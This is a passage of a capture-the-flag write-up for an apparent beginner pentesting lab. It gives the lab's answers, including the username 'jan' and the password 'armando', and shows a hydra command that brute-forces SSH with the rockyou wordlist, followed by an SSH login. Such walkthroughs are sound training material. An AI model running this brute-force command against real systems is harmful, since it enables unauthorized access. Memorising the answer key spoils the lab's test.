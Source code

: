         ```
        Announcement to staff:

        PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
        this is how mistakes happen. (This means you too, Jan!)

        -Kay
        ```

        * this is a message from Kay to Jan, know we have to user names (Kay, Jan)

> Question4: User brute-forcing to find the username & password

> Question5: What is the username? answer: jan

## Brute forcing

* let’s try brute forcing the password of jan user using hydra
* `hydra -l <username> -P <wordlist> -v <target IP> <protocol>`
* in our case the command will be :
  *   `hydra -l jan -P /usr/share/wordlists/rockyou.txt $target ssh`

      <img src="../Basic-Pentesting/images/Untitled 6.png" alt="Untitled" data-size="original">

      * Great, now we have Jan's password, let’s connect using ssh

> Question6: What is the password? answer: armando

***

## Connect using SSH

* `ssh username@Host-IP`

![Untitled](<../Basic-Pentesting/images/Untitled 7.png>)
